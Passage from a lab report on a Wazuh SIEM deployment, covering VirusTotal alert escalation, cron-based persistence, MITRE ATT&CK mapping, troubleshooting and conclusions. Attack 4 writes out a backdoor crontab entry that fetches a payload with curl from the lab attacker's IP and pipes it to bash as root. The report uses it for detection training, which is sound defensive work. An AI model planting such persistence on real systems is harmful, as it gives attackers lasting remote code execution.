
*Figure 8: Wazuh Events list showing the Level-12 VirusTotal alert, a sharp escalation from the Level-5 generic FIM alert.*

**Result:** This produced Wazuh Rule ID 87105 at Level 12, a dramatic escalation in severity compared to the generic Level-5 "File added" alert, since this one confirms the file is independently verified malicious by 57 separate antivirus engines, not merely that a file changed. This illustrates the value of layering threat-intelligence enrichment on top of baseline FIM: the raw file-integrity event alone is low-confidence, while the enriched event is high-confidence and actionable.

### Attack 4: Persistence via Malicious Cron Job

**MITRE ATT&CK Techniques:** T1053.003 – Scheduled Task/Job: Cron (Tactic: Persistence); T1548.003 – Abuse Elevation Control Mechanism: Sudo and Sudo Caching (Tactic: Privilege Escalation / Defense Evasion); T1078 – Valid Accounts

The final stage of the attack chain simulated what a real attacker typically does immediately after obtaining valid credentials: establish a foothold that survives a password change. Using the credentials recovered in Attack 2 (`ubuntu` / `ubuntu`), the attacker logged in over SSH and planted a backdoor entry in the system-wide crontab:

```bash
$ ssh ubuntu@192.168.56.103
$ echo "* * * * * root curl -s http://192.168.56.104/payload.sh | bash" | sudo tee -a /etc/crontab
```

*(No real payload server was running on Kali; the entry was used purely to demonstrate detection of the persistence technique itself.)*

**Detection Outcome**

Wazuh's File Integrity Monitoring did not immediately flag the change to `/etc/crontab`, since `/etc` is covered by Wazuh's default (non-realtime) FIM scan, which runs on a 12-hour schedule rather than continuously. However, Wazuh's command-auditing of sudo usage captured the activity immediately and in full detail, logging the exact command executed:

```
** Alert 1793853799.52001: - syslog,sudo,...
Rule: 5402 (level 3) -> 'Successful sudo to ROOT executed.'
User: root
Nov 05 04:43:18 ubuntu sudo[3921]: ubuntu :  PWD=/home/ubuntu ; USER=root ;
  COMMAND=/usr/bin/tee -a /etc/crontab
command: /usr/bin/tee -a /etc/crontab
```


*Figure 9: Expanded Wazuh alert, Rule 5402, showing the exact sudo command executed (`tee -a /etc/crontab`) and Wazuh's automatic MITRE mapping to T1548.003.*


*Figure 10: Wazuh Events list confirming Rule 5402, "Successful sudo to ROOT executed", for the crontab modification.*

Notably, Wazuh automatically tagged this alert with the MITRE ATT&CK field `rule.mitre_id = T1548.003`, meaning the platform itself identified the technique category without any manual correlation, a strong demonstration of Wazuh's built-in threat-intelligence mapping.

This finding is itself a useful lesson for the report: command-level auditing (what was executed) proved to be a faster and more reliable detection path for this technique than file-level integrity checking (what changed), since the latter is constrained by its scan interval on non-real-time directories.

**Remediation**

Once detection was confirmed, the malicious cron entry was removed to restore the system to a clean state:

```bash
$ sudo sed -i '/payload.sh/d' /etc/crontab
```

## MITRE ATT&CK Mapping Summary

The table below consolidates every attack executed in this lab against its corresponding MITRE ATT&CK tactic and technique, together with the Wazuh rule ID(s) and severity level that detected it (where applicable).

| # | Attack / Activity | Tactic | Technique | Wazuh Rule ID | Level |
|---|---|---|---|---|---|
| 1 | Nmap network scan | Reconnaissance | T1046 – Network Service Discovery | None (gap) | — |
| 2 | Hydra SSH brute force | Credential Access | T1110 – Brute Force | 5760 / 5715 | 5 / 3 |
| 2 | Login with cracked credentials | Initial Access | T1078 – Valid Accounts | 5715 | 3 |
| 3 | EICAR file created (FIM) | Execution | T1204 – User Execution | 554 | 5 |
| 3 | VirusTotal malicious verdict | — | T1588.001 – Obtain Capabilities: Malware | 87105 | 12 |
| 4 | Malicious cron job planted | Persistence | T1053.003 – Scheduled Task/Job: Cron | 5402 | 3 |
| 4 | Sudo command execution | Privilege Escalation | T1548.003 – Abuse Elevation Control Mechanism: Sudo | 5402 | 3 |

## Log Analysis

All logs generated across the lab were analyzed through the Wazuh Dashboard's Threat Hunting module, accessible from the main dashboard menu. This module provides both a high-level Dashboard view (alert counts, top rule groups, top alert types, compliance mappings such as PCI-DSS/GDPR/HIPAA) and a granular Events view, which lists every individual alert as a searchable, filterable table.

Events were filtered using Wazuh's Data Query Language (DQL), primarily by agent name (`agent.name: ubuntu`), rule group (`rule.groups: syscheck`, `rule.groups: virustotal`), and free-text search against the raw log line (`full_log: *crontab*`). Each event can be expanded into a Document Details view exposing the complete set of parsed fields, of which Wazuh captures well over 600 per alert, including the decoder used, the source IP/user, the raw `full_log` line, and, where applicable, automatic MITRE ATT&CK technique tagging (`rule.mitre_id`).

This combination of structured filtering and full raw-log access made it straightforward to trace each attack from the moment it was executed on Kali through to the specific Wazuh rule, severity level, and underlying log line that captured it, which is the evidence basis for the Attack Simulation and Detection section of this report.

Representative Dashboard and Events views captured during each stage of this project are shown throughout the Attack Simulation and Detection section above (Figures 1–10).

## Challenges

A number of practical issues were encountered and resolved during this project, each of which added to the overall understanding of operating a Wazuh deployment:

- **OpenSearch flood-stage watermark:** the Wazuh OVA's default 25 GB disk filled close to its threshold, placing the dashboard's indices into a read-only state. This required freeing disk space and clearing the block using the indexer's admin certificate rather than password authentication (see Procedure, section 3).
- **No clipboard support in the VM console:** the Wazuh OVA ships without VirtualBox Guest Additions, so copy-paste into its console window does not work. All subsequent administration was performed over SSH from the Windows host instead, which also made commands easier to document.
- **Nmap crash on this Kali build:** both initial Nmap scans aborted with a DNS resolver assertion failure (a known issue in this Nmap build's bundled resolver). Adding the `-n` flag to disable DNS resolution resolved it immediately.
- **Network segmentation mismatch:** Kali was initially left on a Bridged adapter (home LAN subnet), which could not reach the Wazuh/Ubuntu host-only subnet. This was resolved by adding a second, Host-only adapter to Kali rather than switching away from Bridged, preserving Kali's internet access for future tool updates.
- **Missed SSH installation on the Ubuntu target:** the "Install OpenSSH Server" option was missed during the Ubuntu Server installer. Since the target had no internet access on its host-only adapter, a second, temporary NAT adapter had to be enabled to install the package afterward, then disabled again to preserve isolation.
- **VirusTotal integration authentication:** the integration's REST calls initially failed because the manager's own indexer requires certificate-based authentication for cluster/security operations rather than the admin/admin password used elsewhere; this was traced by checking `/var/ossec/logs/integrations.log` and the manager's live `ossec.log`.
- **FIM scan interval on non-real-time directories:** the malicious crontab modification was not picked up instantly because `/etc` is monitored on Wazuh's default 12-hour scan cycle rather than in real time. This was ultimately a useful finding in itself — Wazuh's sudo command-auditing detected the activity immediately where file-integrity checking alone would have lagged, and is discussed further in Attack 4.

## Conclusion

The goal of this project was to build and validate a functional Wazuh-based SIEM lab, not merely to demonstrate log collection, but to prove its real-world detection value by actively attacking the monitored system and analyzing what was, and was not, caught.

- **Lab Deployment:** A fully isolated three-machine environment was successfully built using VirtualBox, comprising a Wazuh Manager (OVA-based), a Wazuh Agent-instrumented Ubuntu Server target, and a Kali Linux attacker machine, connected over a dedicated host-only network.
- **Detection Validation:** Four distinct attack techniques, covering reconnaissance, credential brute-forcing, malware staging, and persistence, were executed and their resulting Wazuh alerts, rule IDs, and severity levels were captured and documented.
- **Threat Intelligence Enrichment:** Wazuh's native VirusTotal integration was configured and validated, successfully escalating a low-confidence file-integrity event (Level 5) into a high-confidence, independently verified malware alert (Level 12).
- **Framework Mapping:** Every attack and its corresponding detection (or detection gap) was mapped to the MITRE ATT&CK framework, providing a standardized way to communicate coverage, including Wazuh's own automatic MITRE tagging observed on several alerts.
- **Gap Identification:** The project also surfaced genuine, actionable gaps in the default configuration, namely the lack of dedicated network-scan detection and the absence of a consolidated brute-force correlation alert, both of which point to concrete next steps (network IDS integration, correlation rule tuning) for a production-grade deployment.

Overall, this project demonstrates not just the mechanics of standing up a SIEM, but the full lifecycle of validating its effectiveness against realistic adversary behaviour, which is the core function of a Security Operations Center.

## References

- [Wazuh Virtual Machine (OVA) documentation](https://documentation.wazuh.com/current/virtual-machine/virtual-machine.html)
- [Wazuh official documentation](https://documentation.wazuh.com)
- [VirusTotal](https://www.virustotal.com)
- [MITRE ATT&CK Framework](https://attack.mitre.org)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
- [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [EICAR Anti-Malware Test File](https://www.eicar.org/download-anti-malware-testfile/)

## Contributions

**Akshay Suresh:** Full lab architecture and deployment (Wazuh Manager, Ubuntu target, Kali attacker), network configuration, infrastructure troubleshooting, execution of all four attack scenarios, VirusTotal integration, detection analysis and MITRE ATT&CK mapping, and report documentation.
